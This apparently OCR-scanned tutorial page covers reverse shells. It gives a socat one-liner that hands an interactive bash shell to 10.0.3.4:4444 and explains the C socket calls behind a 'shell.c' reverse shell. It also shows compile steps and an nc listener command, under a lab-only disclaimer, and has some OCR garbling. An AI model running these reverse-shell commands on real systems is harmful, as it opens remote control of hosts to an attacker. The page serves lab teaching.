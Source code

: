 ```bash
    socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```
    
# C reverse shell (shell.c)

## Socket Creation

sockfd: socket descriptor, an integer (like a file-handle)

domain: integer, specifies communication domain.
   - AF_ LOCAL: as defined in the POSIX standard for communication between processes on the same host. 
   - AF_INET: For communicating between processes on different hosts connected by IPV4
   - AF_I NET 6 for processes connected by IPV6.
   - AF_BLUETOOTH is used for low-level Bluetooth connection.
type: communication type
   - SOCK_STREAM: TCP connection
   - SOCK_DGRAM: UDP connection
protocol: Protocol value for Internet Protocol(IP), number on protocl field in the Ip header of a packet. 

```
    int sockfd = socket(AF_INET, SOCK_STREAM, 0);

```
## Socket Connection

Sends connection request to Socket and connects if open (returns 0); fails otherwise (returns -1)

```
    connect(sockfd, (struct sockadr *)&addr, sizeof(addr));
```


https://www.geeksforgeeks.org/socket-programming-cc/

## C reverse shell
### how to compile, run and use the shell.c file for reverse shell
 > ⚠️ For educational/lab use only. Only test on your own machines or safe environments like TryHackMe or HackTheBox.
1. Compile the Code
On Linux:
    ```bash
       gcc -o shell shell.c
    ``` 
2. Set Up the Listener on Attacker Machine
On a separate machine or terminal, run:

    ```bash
    nc -lvnp 4444
    ```
Replace 4444 with your chosen port
